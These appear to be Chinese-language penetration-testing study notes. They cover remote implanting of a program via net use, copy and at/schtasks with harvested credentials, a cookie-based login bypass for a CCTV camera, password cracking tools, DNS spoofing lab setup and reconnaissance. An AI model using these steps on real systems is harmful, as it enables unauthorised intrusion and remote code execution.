

# 会用上的

## windows7 获取文件夹操作权限

右键文件夹选择管理员获得权限

## 可能有用的命令

assoc :改变扩展名和文件类型的关联
at 命令添加任务计划，自动执行程序

## 一个程序植入流程



### 获取ip

### 连接测试

使用ping命令

### 获取用户名和密码

### 连接

windows可以使用net命令进行连接到共享文件夹
<span style="color:green">如果目标没有设置共享则连接后是空的</span>
常用操作：

```dos
# 查看连接情况
net use
# 连接
net use \\IP PASSWORD /user:USERNAME
# 查看已连接的主机
net view \\HOSTNAME
```

### 传输

windows下使用copy命令复制文件
常用操作：

```dos
copy FILE \\IP
```

### 执行

#### windows下使用at命令

```dos
#查看目标机器的时间
net time IP
# 设置任务计划
at IP TIME EXEPATH
```

<span style="color:green">使用at设置时间时不能设置在同一分钟，如6:30:10时不能设置6:30:50，这样时间会设置为次日</span>

#### windows10使用schtasks命令

<span style="color:green">schedule tasks?</span>

##### 创建新任务

```dos
schtasks /create /tn TASKNAME /tr EXEPATH /sc FREQUENCY /st STARTTIME
# TASKNAME  任务名
# EXEPATH   执行文件(路径)
# FREQUENCY 执行频率，值为once时/st为必须项
# STARTTIME 执行时间
```

栗子1：在本地主机每天11：45时运行记事本

```dos
# 这两句效果相同
schtasks /create /tn RunNotepadDaily /tr notepad /sc daily /st 11:45
schtasks /create /tn RunNotepadDaily /tr C:\Windows\notepad /sc daily /st 11:45
```

栗子2：在远程主机10.0.0.2的administrator用户上于05：14时运行一次记事本

```dos
schtasks /create /tn RunNotepadDaily /tr notepad /sc once /st 05:14 /u administrator /p 123
```

##### 执行已有任务

```dos
schtasks /run /tn TASKNAME
```

## DNS欺骗

### 搭建网站和DNS

以Windows Server 2012 为例
用Windows Server 安装IIS后自己建好了，之后安装DNS添加DNS(正向查找区域)
DNS管理器，右键选择新建主机，如图，填入主机名和IP


虚拟机测试：把测试客户端机的DNS地址设为服务端地址
相关命令：nslookup, 查看DNS地址，运行命令后输入域名查看IP


## 杂项

防火墙拦ping，提示“请求超时”

使用VM时要使虚拟机间通信要将它们设置为相同的网卡，使用VMet2，如图


kali内设置静态ip
`ifconfig`


```bash
vim /etc/network/interfaces
```

根据显示结果填入

```txt
auto eth0 // eth0如图
iface eth0 inet static //eth0如图
adddress 10.0.0.2
netmask 255.255.255.0
gateway 10.0.0.1
```

重启网卡

```bash
systemctl restart networking
```

要使kali联网使用动态dhcp，Vm设置特定虚拟网络VMnet0
```bash
vim /etc/network/interfaces
```

```txt
iface eth0 inet dhcp
# 同时注释掉静态ip的设置
```

互联网中设备：
服务器 --> 交换机 --> 路由器 --> 防火墙 --> 堡垒机 --> IPS --> IDS --> 行为管理器 --> 互联网

某CCTV摄像头漏洞

1. 控制台输入以绕过登录：

```javascript
document.cookie="dvr_camcnt=4";
document.cookie="dvr_usr=admin";
document.cookie="dvr_pwd=123";
```

2. 到`/view2.html`查看

## 密码破解

### 在线密码查询

cmd5.com
pmd5.com

### 暴力破解

使用hydra，基础用法看示例

#### 字典

[crunch使用](https://blog.csdn.net/weixin_37994419/article/details/80341737)

### 抓包

wireshark

## 信息收集

* google使用
    [渗透测试Google语法（Web安全信息收集） - 安全技术 - 深信服社区.html](../../res/Security/渗透测试Google语法（Web安全信息收集）%20-%20安全技术%20-%20深信服社区.html)

* ZoomEye

* shodan

* IP地址反查域名

* whois查询
    通过whois查询域名得到服务器ip，通过ip查询同ip以得到同ip网站找到薄弱点

* DNS信息收集
    `host`命令查询DNS服务器
    `dnsmap`： [参考](https://zhuanlan.zhihu.com/p/258138827)

## 扫描

* whatweb
    [参考](https://www.jianshu.com/p/9c0402bf40ff)
    